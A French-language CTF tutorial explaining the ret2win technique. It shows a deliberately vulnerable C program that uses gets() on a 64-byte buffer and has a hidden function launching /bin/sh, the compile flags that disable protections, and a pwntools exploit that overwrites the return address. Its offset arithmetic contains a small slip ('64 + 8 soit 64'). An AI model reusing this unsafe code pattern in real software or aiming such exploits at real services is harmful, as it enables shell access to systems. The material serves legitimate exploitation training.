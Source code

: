 
***Définition:*** Un ret2Win est une sorte de challenge dans lequel le but est d'appeler une fonction qui va nous permettre d'avoir le flag lors d'un CTF. Il s'agit donc du détournement d'un programme afin d'appeler une fonction cachée

---

***Théorie***: Le ret2win consiste à exploiter un Buffer Overflow et donc d'écraser l'adresse de retour avec celle de la fonction qui nous permet de flag soit de gagner 

***Exemple***: 

```c
#include <pty.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void diagnostic_systeme() {
    char statut[32] = "Système : OK\n";
    printf("%s", statut);
}

void nettoyage_temporaire() {
    printf("Nettoyage des fichiers temporaires ...\n");
    system("echo 'Suppression des fichiers temporaires terminée.'");
}

void mise_a_jour_systeme() {
    printf("Vérification des mises à jour...\n");
    printf("Aucune mise à jour disponible.\n");
}

void redemarrage_systeme() {
    printf("Redémarrage du système en cours...\n");
}

void vuln() {
    char buffer[64];
    printf("Veuillez entrer le journal de maintenance :\n");
    gets(buffer); 
    printf("Journal enregistré : %s\n", buffer);
}

void menu_maintenance() {
    char choix[4]; 
    printf("\n=== Menu de Maintenance ===\n");
    printf("1. Diagnostic du système\n");
    printf("2. Nettoyage des fichiers temporaires\n");
    printf("3. Mise à jour du système\n");
    printf("4. Redémarrer le système\n");
    printf("5 Ajouter un journal de maintenance\n");
    printf("Choisissez une option : ");
    fgets(choix, sizeof(choix), stdin); 

    switch (atoi(choix)) { 
        case 1:
            diagnostic_systeme();
            break;
        case 2:
            nettoyage_temporaire();
            break;
        case 3:
            mise_a_jour_systeme();
            break;
        case 4:
            redemarrage_systeme();
            break;
        case 5:
            vuln();
            break;
        default:
            printf("Option invalide.\n");
    }
}


void fonction_secrete() {
    char *const args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);  
}


int main() {
    printf("=== Outil de Maintenance PC ===\n");
    printf("Bienvenue dans le programme de maintenance veuillez choisir une option.\n");
    menu_maintenance();
    printf("Fin du programme.\n");
    return 0;
}
```


Compiler avec : 
`gcc -o overflow -fno-stack-protector -z execstack -no-pie -Wno-implicit-function-declaration overflow.c`

Ce qui nous montre qu'aucune protection n'est activé. 

Pour exploiter ce challenge nous devrons donc faire plusieurs étape:
1. Comprendre ou est l'overflow 
	1. Trouver l'offset de l'overflow
2. Comprendre ce que fait la fonction cacher (Celle qui n'est pas appelé)
	1. Trouver l'adresse de la fonction qui nous permettra d'avoir le flag
3. Construire un exploit permettant d'écraser l'adresse de retour afin d'appelé la fonction caché

	***Information de l'exemple*** :
		1. Notre fonction cacher se nomme `fonction_secrete`
		2. L'overflow se trouve dans la fonction  vuln sur le buffer de 64 bytes:
		3. On constate que la fonction cacher appelle /bin/sh qui permet de trigger un shell
		4. On se rend aussi compte que le choix vulnérable dans le menu est le choix 5 puisqu'il appelle notre fonction vulnérable

---

***Exploitation***:
	Pour trouver l'adresse:
			`nm overflow | grep fonction_secrete`
					Résultat: `00000401417 T fonction_secrete	
	Pour trouver l'offset soit le nombre de caractère pour provoquer l'overflow nous pouvons,
		effectuer un  simple calcul 64 + 8 soit 64, la taille du buffer + la taille d'un registre  

Exploit Final:
```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

def main():
    # Connexion au programme
    p = remote("127.0.0.1", 1337)
    
    p.sendline(b'5')

    offset = 72  
    payload = b'A' * offset
    payload += p64(0x401417)
    
    p.sendline(payload)
    p.interactive()

if __name__ == '__main__':
    main()
```
